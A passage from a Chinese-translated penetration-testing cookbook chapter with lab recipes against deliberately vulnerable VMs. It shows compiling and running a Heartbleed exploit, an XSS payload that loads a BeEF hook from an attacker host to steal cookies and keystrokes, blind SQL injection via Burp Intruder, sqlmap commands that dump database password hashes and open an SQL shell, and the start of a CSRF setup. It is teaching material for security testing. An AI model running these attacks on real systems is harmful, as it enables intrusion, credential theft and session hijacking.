# 第七章 高级利用

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

在获得一些便利来发现和利用漏洞之后，我们现在转向可能需要更多努力的其他问题上。

这一章中，我们会搜索利用，编译程序，建立服务器以及破解密码，这可以让我们访问敏感信息，并执行服务器和应用中的特权功能。

## 7.1 在 Exploit-DB 中搜索 Web 服务器的漏洞

我们偶尔会在操作系统中， Web 应用所使用的库中，以及活动服务中发现服务器漏洞，或者可以在浏览器或 Web 代理中不能利用的安全问题。对于这些情况，我们可以使用 Metasploit 的利用集合，或者如果我们要找的不在 Metasploit 里面，我们可以在 Exploit-DB 中搜索它。

Kali 包含了 Exploit-DB 中的利用的离线副本。这个秘籍中，我们会使用 Kali 自带的命令来探索这个数据库并找到我们需要的利用。

### 操作步骤

1.  打开终端。

2.  输入下列命令：

    ```
    searchsploit heartbleed
    ```
    
    
    
3.  下一步是将利用复制到一个可以修改的地方，并编译它，像这样：

    ```
    mkdir heartbleed 
    cd heartbleed 
    cp /usr/share/exploitdb/platforms/multiple/remote/32998.c 
    ```
    
4.  通常，利用在第一行包含一些自身信息，以及如何使用它们，像这样：

    ```
    head -n 30 32998.c
    ```
    
    
    
5.  这里，利用使用 C 编写，所以我们需要将它编译来使用。编译命令在文件中显示（`cc -lssl -lssl3 -lcrypto heartbleed.c -o heartbleed`），它在 Kali 中不起作用，所以我们需要下面这个：

    ```
    gcc 32998.c -o heartbleed -Wl,-Bstatic -lssl -Wl,-Bdynamic -lssl3 -lcrypto
    ```
    
    
    
### 工作原理

`searchsploit `命令是安装在 Kali 中的 Exploit-DB 本地副本的接口。它用于在利用的标题和描述中搜索字符串，并显示结果。

利用存在于`/usr/share/exploitdb/platforms `目录中。`searchsploit `所展示的利用目录是它的相对路径，这就是我们在复制文件的时候使用完整路径的原因。利用文件以利用编号命名，在它们被提交到Exploit-DB 时分配。

编译步骤和在源代码中的推荐有些不同，因为 OpenSSL 库在基于 Debian 的发行版中，由于它们从源代码中构建的方式而缺少一些功能。

### 更多

监控利用的影响和效果极其重要，因为我们在实时系统中使用它。通常，Exploit-DB 中的利用都值得相信，即使它们通常需要一些调整来工作在特定的环境中，但是它们中有一些不像他们所说的那样。出于这个原因，在真实世界的渗透测试中使用之前，我们需要检查源代码并在我们的实验环境中测试它们。

### 另见

除了 Exploit-DB（`www.exploit-db.com`），也有一些其他站点可以用于搜索目标系统中的已知漏洞和利用：

+ http://www.securityfocus.com 
+ http://www.xssed.com/ 
+ https://packetstormsecurity.com/
+ http://seclists.org/fulldisclosure/
+ http://0day.today/

## 7.2 利用 Heartbleed 漏洞

这个秘籍中，我们会使用之前编译的 Heartbleed 利用来提取关于存在漏洞的 Bee-box 服务器的信息（`https://192.168.56.103:8443/ `）。

Bee-box 虚拟机可以从`https://www.vulnhub.com/ entry/bwapp-bee-box-v16,53/ `下载，那里也有安装指南。

### 准备

在上一个秘籍中，我们生成了 Heartbleed 利用的可执行文件。我们现在使用它来利用服务器的漏洞。

Heartbleed 是能够从服务器内存中提取信息的漏洞。在尝试利用来获得一些要提取的信息之前，可能需要浏览并向服务器的 8443 端口上的 HTTPS 页面发送数据。

### 操作步骤

1.  如果我们检查Bee-Box 的 8443 端口，我们会发现它存在 Heartbleed 漏洞。

    ```
    sslscan 192.168.56.103:8443
    ```
    
    
    
2.  现在，让我们开始利用漏洞。手心，我们访问包含可执行利用的文件夹：

    ```
    cd heartbleed
    ```
    
3.  之后我们检查程序的选项，像这样：

    ```
    ./heartbleed --help
    ```
    
    
    
4.  我们要尝试利用`192.168.56.103 `的 443 端口，获得最大的泄露并保存输出到文本文件`hb_test.txt`。

    ```
    ./heartbleed -s 192.168.56.103 -p 8443 -f hb_test.txt -t 1
    ```
    
    
    
5.  现在，如果我们检查`hb_test.txt`的内容：

    ```
    cat hb_test.txt
    ```
    
    
    
    我们的利用从 HTTPS 服务器中提取了信息，从这里我们可以看到会话 OD 甚至还有完整的登录请求，包括纯文本用户名和密码。
    
6.  如果我们想要跳过所有的二进制数据，只查看文件中的可读文本，使用`strings`命令：

    ```
    strings hb_test.txt
    ```
    
    
    
### 工作原理

我们在第四章中提到过，Heartbleed 漏洞允许攻击者从 OpenSSL 服务器内存中以纯文本读取信息，这意味着我们不需要解密甚至是解释任何客户端和服务端之间的通信，我们只需简单地向服务器请求内存中的东西，它会回应未加密的信息。

这个秘籍中，我们使用了可公共访问的利用来执行攻击，并获取到至少一个有效的会话 ID。有的时候还可能在 Heartbleed 的转储中找到密码或其它敏感信息。

最后，`strings`命令只展示文件中的字符串，跳过所有特殊字符，使其更加易读。

## 7.3 使用 BeEF 利用 XSS

BeEF，即浏览器利用框架，是个专注于客户端攻击向量的框架，特别是 Web 浏览器的攻击。

这个秘籍中，我们会利用 XSS 漏洞并使用 BeEF 来控制客户端浏览器。

### 准备

在开始之前，我们需要确保启动了 BeEF 服务，并且能够访问`http://127.0.0.1:3000/ui/panel`（使用`beef/beef`身份标识）。

1.  Kali 的默认 BeEF 服务不能工作。所以我们不能仅仅运行`beef-xss`让它启动。我们需要从安装目录中启动它，像这样：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
    
    
2.  现在，浏览`http://127.0.0.1:3000/ui/panel`并使用`beef`作为用户名和密码。如果有效，我们就准备好了。

### 操作步骤

1.  BeEF 需要客户端浏览器调用`hook.js`文件，这用于将浏览器勾到我们的 BeEF 服务器，我们会使用一个存在 XSS 漏洞的应用来使用户调用它。为了尝试简单的 XSS 测试，浏览`http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

2.  这就是存在 XSS 漏洞的应用，所以现在我们需要修改脚本来调用`hook.js`。想象一下你就是受害者，你已经收到了包含` http://192.168.56.102/bodgeit/search.jsp?q=<script src="http://192.168.56.1:3000/hook.js"></script>`链接的邮件，你打算浏览器它来看看，像这样：

    
    
3.  现在，在 BeEF 面板中，攻击者会看到新的在线浏览器。

4.  攻击者的最佳步骤就是生成一些持久的，至少在用户浏览期间有效。访问攻击者浏览器的`Command`标签页，从这里选择`Persistence | Man-In-The-Browser`之后点击`Execute`。执行之后，选择`Module Results History`中的相关命令来检查结果，像这样：

    
    
5.  如果我们检查浏览器中的`Logs`标签页，我们可能会看到BeEF正在储存用户关于用户在浏览器中执行什么操作的信息，例如输入和点击，我们可以在这里看到：

    
    
6.  我们也可以通过使用`Commands | Browser | Hooked Domain | Get Cookie`来获取Cookie，像这样：

    
    
### 工作原理

这个秘籍中，我们使用了`script`标签的`src`属性来调用外部 JS 文件，这里是 BeEF的钩子。

`hook.js`文件与服务器通信，执行命令并返回响应，使攻击者能够看到它们。它在客户端的浏览器中不打印任何东西，所以受害者通常不会知道他的浏览器正在被攻击。

在让受害者执行我们的`hook`脚本之后，我们使用持久化模块  Man In The Browser 使浏览器在每次用户点击链接时，向相同域发送 AJAX 请求，所以这个请求维持了钩子，也加载了新的页面。

我么也会看到，BeEF 的日志记录了用户在页面上执行的每个步骤，我们能够从中获得用户名和密码信息。也可以用来获得远程的会话 Cookie，这可以让攻击者劫持受害者的会话。

### 更多

BeEF 拥有很多功能，从判断受害者所使用的浏览器类型，到利用已知漏洞和完全攻陷客户端系统。一些有趣的特性是：

+   `Social Engineering/Pretty Theft`：这是个社会工程工具，允许我们模拟登陆页面，就像常见的服务那样，例如 Fackbook、Linkedin、YouTube 以及其它。

+   ` Browser/Webcam and Browser/Webcam HTML5`：就像看上去那样，这两个模块能够恶意使用许可配置来激活受害者的摄像头，前者使用隐藏的 Flash `embed`标签，后者使用 HTML5 标签。

+   ` Exploits folder`：这包含一组特殊软件和情况的利用，它们中的一些利用服务和其它客户端浏览器。

+   `Browser/Hooked Domain/Get Stored Credentials`：这会尝试提取浏览器中储存的沦陷域的用户名和密码。

+   ` Use as Proxy`：如果我们右击被勾住的浏览器，我们会获得将其用作代理的选项。这将客户端浏览器用作代理，会给我们机会来探索受害者的内部网络。

BeEF 有许多其它攻击和模块，对渗透测试者非常实用，如果你想要了解更多，你可以查看官方的 Wiki：`https://github.com/ beefproject/beef/wiki`。

## 7.4 利用 SQL 盲注

在第六章中，我们利用了基于错误的 SQL 注入，现在我们使用 Burp Suite Intruder 作为主要工具来识别和利用 SQL 盲注。

### 准备

使浏览器将 Burp Suite 用作代理。

### 操作步骤

1.  浏览` http://192.168.56.102/WebGoat`，实用`webgoat`作为用户名和密码登录。

2.  点击` Start WebGoat`来访问 WebGoat 的主页。

3.  访问` Injection Flaws | Blind Numeric SQL Injection`。

4.  页面上说，练习的目标是找到给定字段在给定行中的值。我们的做事方式有一点不同，但是让我们看看它如何工作：将`101`作为账户号码，并点击`go`。

    
    
5.  现在尝试`1011`。

    
    
    到目前为止，我们看到了应用的行为，它仅仅告诉我们账户号码是否有效。
    
6.  让我们尝试注入，因为它查找号码，可能将它们用作整数。我们在测试中不使用单引号，所以提交`101 and 1=1`

    
    
7.  现在尝试`101 and 1=2`。

    
    
    看上去这里有个盲注，在有效的账户中注入恒真的条件结果。注入恒假的条件时会出现` Invalid account number`信息。
    
8.  在这个秘籍中，我们要获得连接到数据库的用户名称。所以我们首先需要知道用户名称的长度。让我们尝试一下，注入` 101 AND 1=char_length(current_user)`。

9.  下一步是在 BurpSuite 的代理中寻找最后一个请求，并将它发送到 intruder中，像这样：

    
    
0.  一旦发送到 intruder，我们可以清楚所有载荷标记，并在`AND`后面的`1`中添加新的，像这样：

    
    
1.  访问载荷部分并将`Payload type`设为`Numbers`。

2.  将`Payload type`设为`Sequential`，从 1 到 15，步长为 1。

    
    
3.  为了看看响应是否满足要求，访问` Intruder's options`，清除` GrepMatch`列表并添加` Invalid account number`，以及`Account number is valid`。

    
    
    我们需要在每个 intruder 的标签页中这样修改。

4.  为了使应用自动化，在`Redirections `中选择`Always`，并在`Redirections`中选择` Process cookies `。

    
    
    我们需要在每个 intruder 的标签页中这样修改。
    
5.  开始攻击

    
    
    它找到了号码为 2 的有效响应，这意味着用户名只含有两个字符长。
    
6.  现在，我们打算猜测用户名的每个字符，从第一个字符开始。在应用中提交下列代码：` 101 AND 1=(current_user LIKE 'b%')`。

    我们选择`b`作为第一个字符，让 BurpSuite 来获取请求，它应该为任意字符。
    
7.  同样，我们将请求发送给 intruder 并保留唯一的载荷标记`b`，它是名称的首单词。

    
    
8.  我们的载荷应该是含有所有小写字母和大写字母的列表（从 a 到 z 以及 A 到 Z）。

    
    
9.  在 intruder 中重复步骤 13 到 14 并开始攻击，像这样：

    
    
    我们的用户名的首字母是`S`。
    
0.  现在，我们需要找到名称的第二个单词，所以我们提交` 101 AND 1=(current_user='Sa')`到应用的文本框，并发送请求给 intruder。

1.  现在我们的载荷标记是`S`后面的`a`，换句话说，名称的第二个字符。

    
    
2.  重复步骤 18 到 19。在我们的例子中，我们只使用了俩表中的大写字母，因为如果第一个单词是大写的，两个单词就很可能都是大写的。

    
    
    名称的第二个单词是`A`，所以应用用于执行查询的数据库用户是`SA`。`SA`在 MSSQL 数据库中的意思是系统管理员。
    
### 工作原理

利用 SQL 盲注比起基于错误的注入花费更多精力和时间。在这个秘籍中我们看到了如何获取连接到数据库的用户名，而在第六章的 SQL 注入利用汇总，我们使用了一条命令来获取它。

我们可以使用字典来查看当前用户是否在名称列表中，但是如果名称不在列表中，会花费更多时间。

我们最开始识别了漏洞，所显示的信息告诉我们我们的请求是真是假。

一旦我们知道存在注入，并且正面的响应是什么样子，我们开始询问当前用户的长度，询问数据库，`1`是否是当前用户名的长度，是不是`2`，以此类推，知道我们发现了长度。知道何时停止用户名长度的搜索非常重要。

在找到长度之后，我们使用相同的技巧来发现首字母，` LIKE 'b%' `语句告诉 SQL 解释器是否首字母是`b`，剩下的并不重要，它可以是任何东西（`%`是用于多数 SQL 实现的通配符）。这里，我们看到了首字母是`S`。使用相同的技巧，我们就能发现第二个字符，并得到整个名称。

### 更多

这个攻击可以继续来获得 DBMS 的版本，之后使用厂商特定的命令来观察是否用户拥有管理权限。如果是的话，你可以提取所有用户名和密码，激活远程连接，以及除此之外的许多事情。

你可以尝试的事情之一就是使用 SQLMap 来利用这类型的注入。

还有另一种类型的盲注，它是基于时间的 SQL 盲注。其中我们没有可视化的线索，关于命令是否被执行（就像有效或者无效的账户信息）。反之，我们需要给数据库发送`sleep`命令，如果响应时间鲳鱼我们发送的时间，那么它就是真的响应。这类型的攻击非常缓慢，因为它有时需要等待 30 秒来获得仅仅一个字符。拥有类似 sqlninja 或者 SQLMap 的工具在这种情况下十分有用（`https://www.owasp.org/index.php/Blind_SQL_Injection`）。

## 7.5 使用 SQLMap 获得数据库信息

在第六章中，我们使用了 SQLMap 来从数据库提取信息和表的内容。这非常实用，但是这不仅仅是这个工具的优势，也不是最有趣的事情。这个秘籍中，我们会将其用于提取关于数据库用户和密码的信息，这可以让我们访问整个系统，而不仅仅是应用。

### 操作步骤

1.  启动 Bee-box 虚拟机之后，将 BurpSuite 监听用做代理，登录和选择 SQL 注入漏洞（POST/Search）。

2.  输入任何电影名称并点击`Search`。

3.  现在让我们访问 BuirpSuite 并查看请求：

    
    
4.  现在，在 Kali 中访问终端并输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba
    ```
    
    
    
    我们可以看到注入成功了。当前的用户是 DBA，这意味着用户可以对数据库执行管理员操作，例如添加用户和修改密码。
    
5.  现在我们打算提取更多信息，例如用户和密码，所以在终端中输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba --users --passwords
    ```
    
    
    
    我们现在得到了数据库的用户列表以及哈希后的密码。
    
6.  我们也可以获得 shell，让我们能够直接发送 SQL 查询到数据库。

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title –sql-shell
    ```
    
    
    
### 工作原理

一旦我们知道了存在 SQL 注入，我们使用 SQLMap 来利用它，像这样：

```
sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba
```

在这个对 SQLMap 的调动中，我们使用了`--cookie`参数来发送会话 Cookie 因为应用需要身份验证来访问`sqli_6.php `页面。`--data`参数包含发送到服务器的 POST 数据，`=p`告诉 SQLMap 仅仅注入`title`参数，`--is-dba`询问数据库当前用户是否拥有管理员权限。

DBA 允许我们向数据库询问其他用户的信息，SQLMap 通过`--users`和`--passwords`使我们的操作变得更加容易。这些参数询问用户名和密码，因为所有 DBMS 将用户的密码加密存储，我们获得的只能是哈希。所以我们仍然要使用密码破解器来破解它们。如果你在 SQLMap 询问你执行字典攻击的时候回答`Yes`，你可能就知道了至少一个用户的密码。

我们也使用了`--sql-shell`选项来从我们向数据库发送的 SQL 查询中获得 shell。这并不是真的 shell，当然，SQLMap 通过 SQL 注入发送我们写的命令，并返回这些查询的结果。

## 7.6 执行 CSRF 攻击

CSRF 攻击强迫身份验证后的用户在 Web 应用中执行需要身份验证的，非预期的行为。这可以通过用户所浏览的外部站点触发该行为来实现。

这个秘籍中，我们会获取应用中的信息，来观察攻击站点是否能够发送有效的请求给漏洞服务器。之后，我们会创建页面来模拟正常请求并诱使用户在身份验证后访问这个页面。恶意页面之后会发送请求给漏洞服务器，如果应用在相同浏览器中打开，它会执行操作，好像用户发送了它们。

### 准备

为了执行 CSRF 攻击，我们使用 vulnerable_vm 中的 WackoPicko 应用：`http://192.168.56.102/WackoPicko`。我们需要两个用户，一个叫做`v_user`，是受害者，另一个叫做`attacker`。

我们也需要启动 BurpSuite 并将其配置为服务器的代理。

### 操作步骤

1.  作为`attacker`登录 WackoPicko。

2.  攻击者首先需要了解应用的行为，所以如果我们发酸使用户购买我们的图片，将 BurpSuite 用作代理，我们需要浏览：` http://192.168.56.102/WackoPicko/pictures/recent.php `。

3.  选项 ID 为 8 的图片：` http://192.168.56.102/WackoPicko/ pictures/view.php?picid=8`。

4.  点击`Add to Cart`。

5.  会花费我们 10 个 Tradebux，但这是值得的，所以点击` Continue to Confirmation`。

6.  在下一页上，点击`Purchase`。

7.  现在，让我们访问 BurpSuite 来分析发生了什么。

    第一个有趣的调用是`/WackoPicko/cart/action. php?action=add&picid=8 `，它是添加图片到购物车的请求。`/WackoPicko/cart/confirm.php`在我们点击相应按钮时调用，它可能必须用于购买。另一个可被攻击者利用的是购买操作的 POST 调用：`/WackoPicko/cart/action. php?action=purchase`，他告诉应用将图片添加到购物车中并收相应的 Tradebux。
    
    
    
8.  现在，攻击者需要上传图片来强迫其它用户购买。登录为`attacker`之后，访问`Upload`，填充所需信息，选项需要上传的文件，点击`UploadFile`。

    
    
    一旦图片呗上传，我们会直接重定向到它的相应页面，你可以在这里看到：

    
    
    要注意为图片分配的 ID，它是攻击的核心部分，这里它是 16。
    
9.  一旦我们分析了购买流程，并拥有了图片 ID，我们需要启动托管恶意页面的服务器。在 Kali 中以 root 用户启动 Apache 服务器，像这样：

    ```
    service apache2 start 
    ```
    
